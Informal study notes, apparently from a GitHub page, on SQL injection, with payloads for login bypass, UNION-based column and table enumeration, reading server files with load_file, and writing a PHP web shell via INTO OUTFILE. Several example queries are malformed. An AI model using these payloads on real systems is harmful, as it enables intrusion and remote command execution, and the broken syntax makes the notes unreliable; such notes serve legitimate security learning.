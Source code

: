 Interesting website: 

https://portswigger.net/web-security/sql-injection/cheat-sheet



When you do a query , for example

SELECT * users WHERE user=pepe AND password=pepe

if the code is trashed is like this
SELECT * users WHERE user='%s' AND password='%s'


so when you put another '  the last part of the code looks like this

SELECT * users WHERE user='%s' AND password='%s''

and this make errors on the website the most common use for this bug is when you put

SELECT * users WHERE user='pepe' AND password='pepe' or 1=1 -- -


Sometimes this doesnt work, another important thing is 

' order by 2 (if the page doesnt give you an error you can make a query like this)

SELECT categorie WHERE  categorie='peines' UNION SELECT order by 2--

And you can do something like 

SELECT categorie WHERE  categorie='peines' UNION SELECT NULL,NULL FROM CATEGORIES-- -' (the rest of the querry)

Sometimes you can put php code on the website, (or python ,etc)

```
SELECT categorie WHERE  categorie='peines' UNION SELECT NULL,"<?php system('whoami'); ?>" FROM CATEGORIES-- -' (the rest of the querry)
```
or load files to the database

```
SELECT categorie WHERE  categorie='peines' UNION SELECT NULL,load_file(/etc/hosts) FROM CATEGORIES-- -' (the rest of the querry)
```
Sometimes depending of the permissions you can do things like this, 1 querry is an input 2nd query is an output (if you have writing cappabilities)

```
SELECT categorie WHERE  categorie='peines' UNION SELECT <?php system('whoami'); ?>,"probando" into outfile "/tmp/prueba.txt-- -" FROM CATEGORIES-- -' (the rest of the querry)
```

if we can put this kind of things on a url called for example /var/www/html/commamd.php ... and we put that on the url , the url will return to us the comand on the screen.


you can investigate more



anotaciones de ataques

Selecting the tables and searching whinch values they have
```
 Pets' union SELECT null,table_name FROM information_schema.tables-- -
```
Selecting the columns and watching which values they have
